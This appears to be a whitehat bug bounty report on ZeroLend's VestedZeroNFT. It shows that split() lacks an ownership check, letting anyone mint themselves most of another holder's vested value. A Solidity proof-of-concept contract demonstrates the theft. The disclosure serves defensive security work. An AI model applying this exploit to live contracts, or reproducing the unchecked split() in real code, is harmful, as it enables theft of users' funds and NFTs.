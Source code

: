 # VestedZeroNFT tokens can be directly stolen through the split() function

Submitted  about 2 months  ago by @Trust (Whitehat)  for  [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost)

----------



Report ID: #29031

Report type: Smart Contract

Has PoC?: Yes

Target: https://github.com/zerolend/governance

Impacts

-   Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
-   Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties

## Details

The split() function of VestedZeroNFT allows a user to split a tokenId to two tokens, using the desired ratio. VestedZeroNFT is a vesting solution, allowing anyone to mint a vesting token who will eventually emit the entire locked funds.

## Vulnerability Details

The  `split()`  function lacks access-control check - essentially that the msg.sender is the owner of  `tokenID`. The  `msg.sender`  is the one receiving the newly minted token with an arbitrary ratio.  `_mint(msg.sender, ++lastTokenId);`  This means anyone can pass an existing tokenID and  `fraction=1`  to still 99.99% of the value of a token.

## Impact Details

Anyone can steal the underlying value of vestedZeroNFTs

## Proof of concept

Since the project's test suite does not run, as indicated in chat, I've prepped a POC as a standalone contract which directly copies the  `split()`  function from VestedZeroNFT.

Simply deploy the SplitStealPOC contract and run  `attack()`  which proves anyone can steal another person's holdings.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IERC165, ERC721Upgradeable, ERC721EnumerableUpgradeable} from "@openzeppelin/contracts-upgradeable/token/ERC721/extensions/ERC721EnumerableUpgradeable.sol";
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";
import {ERC20} from  "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IVestedZeroNFT{
    function split( uint256 tokenId, uint256 fraction) external;
    function mint( address _who, uint256 _pending, uint256 _upfront, uint256 _linearDuration, uint256 _cliffDuration, uint256 _unlockDate, bool _hasPenalty, VestCategory _category) external returns (uint256);
    function init(address _zero, address _stakingBonus) external;
}

enum VestCategory {
    PRIVATE_SALE,
    EARLY_ZERO,
    NORMAL,
    AIRDROP
}

struct LockDetails {
    uint256 cliffDuration;
    uint256 unlockDate;
    uint256 pendingClaimed;
    uint256 pending;
    uint256 upfrontClaimed;
    uint256 upfront;
    uint256 linearDuration;
    uint256 createdAt;
    bool hasPenalty;
    VestCategory category;
}

contract Zero is ERC20 {
    constructor() ERC20("Zero","ZRO") {
        _mint(msg.sender, 100_000 * 1e18);
    }
}

contract VestedZeroNFT is ERC721EnumerableUpgradeable {
    function init(address _zero, address _stakingBonus) external initializer {
    __ERC721_init("ZeroLend Vest", "ZEROv");
    denominator = 10000;
    zero = IERC20(_zero);
    }

    mapping(uint256 => bool) public frozen;
    uint256 public denominator;
    mapping(uint256 => LockDetails) public tokenIdToLockDetails;
    uint256 public lastTokenId;
    IERC20 public zero;

    function split(
        uint256 tokenId,
        uint256 fraction
    ) external {
        _requireOwned(tokenId);
        require(fraction > 0 && fraction < denominator, "!fraction");
        require(!frozen[tokenId], "frozen");
        LockDetails memory lock = tokenIdToLockDetails[tokenId];
        uint256 splitPendingAmount = (lock.pending * fraction) / denominator;
        uint256 splitUpfrontAmount = (lock.upfront * fraction) / denominator;
        uint256 splitUnlockedPendingAmount = (lock.pendingClaimed * fraction) /
            denominator;
        uint256 splitUnlockedUpfrontAmount = (lock.upfrontClaimed * fraction) /
            denominator;
        tokenIdToLockDetails[tokenId] = LockDetails({
            cliffDuration: lock.cliffDuration,
            unlockDate: lock.unlockDate,
            createdAt: lock.createdAt,
            linearDuration: lock.linearDuration,
            pending: splitPendingAmount,
            pendingClaimed: splitUnlockedPendingAmount,
            upfrontClaimed: splitUnlockedUpfrontAmount,
            upfront: splitUpfrontAmount,
            hasPenalty: lock.hasPenalty,
            category: lock.category
        });
        _mint(msg.sender, ++lastTokenId);
        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: lock.cliffDuration,
            unlockDate: lock.unlockDate,
            createdAt: block.timestamp,
            linearDuration: lock.linearDuration,
            pending: lock.pending - splitPendingAmount,
            pendingClaimed: lock.pendingClaimed - splitUnlockedPendingAmount,
            upfrontClaimed: lock.upfrontClaimed - splitUnlockedUpfrontAmount,
            upfront: lock.upfront - splitUpfrontAmount,
            hasPenalty: lock.hasPenalty,
            category: lock.category
        });
    }

    function getTokenIdToLockDetails(uint256 a) external returns (LockDetails memory)  {
        return tokenIdToLockDetails[a];
    }

    function mint(
        address _who,
        uint256 _pending,
        uint256 _upfront,
        uint256 _linearDuration,
        uint256 _cliffDuration,
        uint256 _unlockDate,
        bool _hasPenalty,
        VestCategory _category
    ) external returns (uint256) {
        _mint(_who, ++lastTokenId);
        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");
        if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }
        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });
        // fund the contract
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);
        return lastTokenId;
    }

}


contract SplitStealPOC {

    IERC20 zero;
    VestedZeroNFT nft;

    constructor() {
        zero = new Zero();
        nft = new VestedZeroNFT();
        nft.init(address(zero), address(0));        
    }

    function attack() external {
        zero.approve(address(nft), type(uint256).max);
        nft.mint(address(0x1111), 1000, 1000, 100, 100, block.timestamp, false, VestCategory.EARLY_ZERO); // uint256 _pending, uint256 _upfront, uint256 _linearDuration, uint256 _cliffDuration, uint256 _unlockDate, bool _hasPenalty, VestCategory _category) 

        require(nft.ownerOf(1) == address(0x1111));

        nft.split(1, 10);

        require(nft.ownerOf(2) == address(this));
        LockDetails memory l1 = nft.getTokenIdToLockDetails(1);
        LockDetails memory l2 = nft.getTokenIdToLockDetails(2);
        require(l1.pending == 1);
        require(l2.pending == 999);
    }
}

```
